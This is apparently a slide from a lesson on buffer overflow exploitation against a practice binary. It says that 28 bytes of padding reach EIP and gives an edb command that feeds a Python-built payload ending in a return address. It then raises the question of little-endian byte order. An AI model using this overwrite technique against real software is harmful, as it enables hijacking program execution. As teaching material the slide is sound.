

Exploit
Our buffer overwrites EIP starting with byte 29
This is where we will need to put the memory address 0x56556244

Change your input to the program using python

print(‘\x41’) will be interpreted as a byte

$ edb --run ./modBOF $(python -c "print('A'*28+'\x56\x55\x62\x44')") 2>/dev/null

Remember that 80386 // x86 architecture is little endian so we must flip the bits
If we don’t?